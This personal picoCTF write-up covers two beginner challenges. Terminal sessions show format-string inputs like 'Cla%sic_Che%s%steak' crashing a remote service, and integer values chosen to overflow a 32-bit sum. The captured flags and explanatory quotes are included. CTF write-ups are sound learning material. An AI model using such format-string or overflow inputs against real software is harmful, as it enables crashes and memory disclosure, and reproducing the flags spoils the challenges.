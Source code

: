 ### Format String 0 
Description \
Can you use your knowledge of format strings to make the customers happy? \
Download the binary here. \
Download the source here. \
Connect with the challenge instance here: \
`nc mimas.picoctf.net 50051`

```
momo1126-picoctf@webshell:~$ nc mimas.picoctf.net 49987
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
#### Note: UNDERSTAND FORMAT STRING, REDO!!!!
https://medium.com/@erichdryn/format-string-0-picoctf-writeup-9e8af9e163ff

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}

### Two-Sum
Description \
Can you solve this? \
What two positive numbers can make this possible: n1 > n1 + n2 OR n2 > n1 + n2 \
Enter them here `nc saturn.picoctf.net 53787` \
Source
```
momo1126-picoctf@webshell:~$ nc saturn.picoctf.net 50117
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
700000000            
200000000
You entered 700000000 and 200000000
No overflow

momo1126-picoctf@webshell:~$ nc saturn.picoctf.net 50117
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
700000000
2000000000
You entered 700000000 and 2000000000
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_e06700c0}
momo1126-picoctf@webshell:~$ 
```
#### Reference:
"In this program, integer overflow can occur if the sum of num1 and num2 is greater than the maximum value that can be represented by an int data type.

The maximum value that can be represented by a 32-bit signed int data type is 2,147,483,647. Therefore, if the sum of num1 and num2 is greater than 2,147,483,647, an integer overflow will occur." \
https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-bcb78eb86b78

"A 32-bit integer limit allows for 4,294,967,296 (2^32) pieces of data. If storing signed integers, this would range from -2,147,483,648 to 2,147,483,647 (2^32 / 2). This is a good time to consider what happens if a value exceeds the minimum or maximum"
https://study.com/academy/lesson/16-32-64-128-bit-integers.html#:~:text=A%2032%2Dbit%20integer%20limit,exceeds%20the%20minimum%20or%20maximum.

picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_e06700c0}


